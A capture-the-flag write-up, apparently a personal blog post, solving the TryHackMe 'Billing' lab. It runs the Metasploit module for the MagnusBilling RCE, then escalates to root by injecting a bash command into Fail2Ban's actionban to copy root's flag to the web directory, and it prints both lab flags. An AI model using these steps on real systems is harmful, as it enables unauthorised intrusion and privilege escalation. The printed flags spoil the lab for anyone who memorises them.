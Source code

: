 ```yaml
---
title: "TryHackMe - Billing"
date: 2025-03-08 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [nmap, metasploit, privilege escalation, fail2ban]

---
```



## Introduction

In this post, I will describe my approach to solving the MagnusBilling CTF challenge on TryHackMe. The process involved port scanning, service enumeration, exploiting the known vulnerability CVE-2023-30258, and escalating privileges to root using Fail2Ban manipulation.

## 1. Port Scanning

First, I scanned the target host to identify available ports and services:
```console
nmap -sC -sV -Pn 10.10.181.229
```
## 2. Directory Enumeration

I used Gobuster to identify potentially interesting directories:
```console
gobuster dir -u http://10.10.181.229 -w /usr/share/wordlists/dirb/big.txt
```
I checked `robots.txt` and discovered mbilling directory.<br>
After finding the mbilling directory, I performed a more detailed scan:
```console
gobuster dir -u http://10.10.181.229/mbilling -w /usr/share/wordlists/dirb/big.txt
```

## 3. Exploiting MagnusBilling Vulnerability (CVE-2023-30258)

After researching 
 [CVE-2024-30258 Exploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)
 I used Metasploit to gain access to the system:
```console
msf > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > show targets
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > set TARGET <target-id>
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > show options
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > exploit
```
After gaining access, I found the first flag in the `magnus` user's directory:

`THM{4a6831d5f124b25eefb1e92e0f0da4ca}`

 ## 4. Privilege Escalation to Root via Fail2Ban

I try to switch to the root user

```console
sudo -l
```
The output showed:
```
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client

```


I’m researching [Fail2Ban](https://juggernaut-sec.com/fail2ban-lpe/).It turns out that I have sudo privileges that allow me to restart the Fail2Ban service without knowing the current user's password. This enables me to exploit it to execute arbitrary commands. To achieve this, I need to modify the iptables-multiport actionban file so that it allows me to read the next flag, which is accessible only by root.

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/root_exposed.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"

```

To execute the malicious command, I also need to ban the local IP:

```bash
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

```

Now I can read the flag:

```bash
cat /var/www/html/mbilling/lib/icepay/root_exposed.txt

```
Flag : `THM{33ad5b530e71a172648f424ec23fae60}`


## Conclusion

In this challenge, I demonstrated a complete attack chain, from initial reconnaissance to privilege escalation. By systematically scanning the target, identifying vulnerabilities, and leveraging misconfigurations, I was able to gain root access. 